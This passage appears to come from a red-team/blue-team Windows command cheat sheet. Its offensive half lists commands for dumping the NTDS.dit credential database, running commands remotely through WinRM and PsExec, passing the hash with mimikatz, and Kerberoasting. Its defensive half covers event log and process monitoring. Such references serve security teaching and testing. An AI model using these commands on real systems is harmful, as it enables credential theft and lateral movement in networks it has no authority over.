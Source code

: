 **NTDS.dit Dumping**
```bash
ntdsutil "ifm" "create full C:\temp" quit quit
vssadmin list shadows
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit" C:\ntds.dit
```
Extract Active Directory database.

### Lateral Movement

**Windows Remote Management (WinRM)**
```bash
winrs -r:TARGET -u:DOMAIN\USER -p:PASSWORD cmd /c whoami
winrs -r:TARGET -u:DOMAIN\USER -p:PASSWORD powershell "Get-Process"
```
Execute commands remotely via WinRM.

**PsExec**
```bash
psexec \\TARGET -u DOMAIN\USER -p PASSWORD cmd
psexec \\TARGET -s cmd
```
Execute programs remotely (requires SMB access).

**Pass-the-Hash**
```bash
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd
invoke-wmimethod -path win32_process -name create -argumentlist "cmd /c whoami > C:\temp\output.txt" -computername TARGET -credential $cred
```
Authenticate using NTLM hash instead of plaintext password.

**Kerberoasting**
```bash
GetUserSPNs.ps1 -Domain DOMAIN -SamAccountName USER
Invoke-Kerberoast
```
Request and crack service account credentials.

---

## <a name="windows-blue"></a>Windows - BLUE Team (Defensive)

### System Monitoring

**Event Log Analysis**
```bash
Get-EventLog -LogName System -Newest 100
Get-EventLog -LogName Security -InstanceId 4688
wevtutil qe Security /c:10
```
Monitor system and security event logs for suspicious activity.

**Process Monitoring**
```bash
Get-Process | Where-Object {$_.ProcessName -like "*pwsh*"}
Tasklist /v /fo list | find /i "powershell"
wmic process list brief where name="cmd.exe"
```
Identify suspicious processes and command-line executions.
